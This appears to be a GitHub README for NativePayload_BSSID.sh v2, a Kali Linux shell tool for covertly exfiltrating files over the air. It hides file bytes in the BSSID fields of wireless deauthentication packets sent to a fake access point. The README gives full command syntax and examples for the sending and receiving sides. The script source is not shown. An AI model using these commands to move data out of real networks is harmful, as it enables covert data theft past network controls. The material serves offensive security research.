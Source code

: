 # NativePayload_BSSID.sh v2

Exfiltration via Wireless DeAuthentication Packets from Client to Server on AIR (without user-pass or Wifi Connection & very fast)

Note: this code tested in kali linux systems (only).

Article/Pdf and New video will Publish here soon...

Video[1] , NativePayload_BSSID.sh v2 (step by step) : https://www.youtube.com/watch?v=rg-O4RKt9OA

as you can see in this "Picture 1", with this switch "help" you can see Help information : ./NativePayload_BSSID.sh help 

![](https://github.com/DamonMohammadbagher/NativePayload_BSSID/blob/master/Chapter%209%20-%20Transferring%20Backdoor%20Payload%20by%20Wireless%20Traffic%20-BSSID/NativePayload_BSSIDv2/NativePayload_BSSID%20help.png)
Picture 1:

# NativePayload_BSSID.sh (help):  

   NativePayload_BSSID.sh v1 Syntax: 

    Step1 (Client Side): 
    Syntax            :./NativePayload_BSSID.sh -f [text-file] [Fake-AP-Name] [MonitorMode-Interface]
    Example [System A]:./NativePayload_BSSID.sh -f mytext.txt myfakeAP Wlan3mon

    Step2 (Server Side):
    Syntax            :./NativePayload_BSSID.sh -s [Wifi-Interface] [Exfil-Dump-file]
    Example [System B]:./NativePayload_BSSID.sh -s wlan0 ExfilDumped.txt

    Description: with Step1 (system A) you will inject bytes for (mytext.txt) file to BSSID for Fake AP in this case (myfakeAP) ,
    with Step2 on (system B) you can have this text file via Scanning Fake AP on AIR by Wireless traffic (Using iwlist tool)
    Note : before step1 you should make Monitor-Mode Interface (WlanXmon) by this command for example : airmon-ng start wlan3 
    --------------------------------------------------------
   NativePayload_BSSID.sh v2 Syntax I: 

    Step1 (Server Side):
    Syntax            :./NativePayload_BSSID.sh -deauthdumps [FakeAP-ESSID] [MonitorMode-Interface] [Wifi-Channel] [FakeAP-BSSID]
    Example [System B]:./NativePayload_BSSID.sh -deauthdumps MyFakeAP wlan1mon 7 00:12:32:44:64:19

    Step2 (Client Side):
    Syntax            :./NativePayload_BSSID.sh -exfildeauth [text-file] [Target-FakeAP-BSSID] [Wifi-Interface] [Wifi-Channel] [dbg]/[fast]/[faster]
    Example [System A]:./NativePayload_BSSID.sh -exfildeauth mypayload.txt 00:12:32:44:64:19 wlan2 7 faster

    Description: with Step1 (system B) you will have Fake AP via wlanXmon interface also DeAuth Packets will Dump via Tcpdump
    tool in this step in server side , 
    Note: before step1 you should make WlanXmon Monitor-Mode Interface by this command : airmon-ng start wlanX 
    with Step2 your Client (system A) will send that text file to (Target/system B) via DeAuth Packets On AIR Directly...
    note: via Step2 your Payload Injected to Client.BSSIDs in DeAuth Packets.
    --------------------------------------------------------
   NativePayload_BSSID.sh v2 Syntax II:
   
    (Server/Client Side):
    Syntax :./NativePayload_BSSID.sh -exfilserver
    Description: for more information please read PDF/Article on Github... (soon)
    --------------------------------------------------------

--------------------------------------------------------------------------------------

# NativePayload_BSSID.sh v2 
# and DeAuth Method (step by step): 

Step 1 :
with switch "-deauthdumps" you will have Fake AP via wlanXmon interface also DeAuth Packets will Dump via Tcpdump
tool in this step in server side.

Note: before step1 you should make WlanXmon Monitor-Mode Interface by this command : airmon-ng start wlanX 
 
    Step1 (Server Side):
    Example [System B]:./NativePayload_BSSID.sh -deauthdumps MyFakeAP wlan1mon 7 00:12:32:44:64:19


![](https://github.com/DamonMohammadbagher/NativePayload_BSSID/blob/master/Chapter%209%20-%20Transferring%20Backdoor%20Payload%20by%20Wireless%20Traffic%20-BSSID/NativePayload_BSSIDv2/NativePayload_BSSID%20Step1.png)
Picture 2:

Step 2 :
with Step2 your Client (system A) will send that text file to (Target/system B) via DeAuth Packets On AIR Directly...
note: via Step2 your Payload Injected to Client.BSSIDs in DeAuth Packets.

    Step2 (Client Side):
    Example [System A]:./NativePayload_BSSID.sh -exfildeauth mypayload.txt 00:12:32:44:64:19 wlan2 7 faster

![](https://github.com/DamonMohammadbagher/NativePayload_BSSID/blob/master/Chapter%209%20-%20Transferring%20Backdoor%20Payload%20by%20Wireless%20Traffic%20-BSSID/NativePayload_BSSIDv2/NativePayload_BSSID%20Step2.png)
Picture 3:

as you can see in "Picture 4" after 5 seconds that text file "3.txt" Exfiltrated from client to server on AIR ,(very simple).

![](https://github.com/DamonMohammadbagher/NativePayload_BSSID/blob/master/Chapter%209%20-%20Transferring%20Backdoor%20Payload%20by%20Wireless%20Traffic%20-BSSID/NativePayload_BSSIDv2/NativePayload_BSSID%20Step4.png)
Picture 4:

Article and Pdf File will Publish here soon...

Video STEP BY STEP : https://www.youtube.com/watch?v=rg-O4RKt9OA

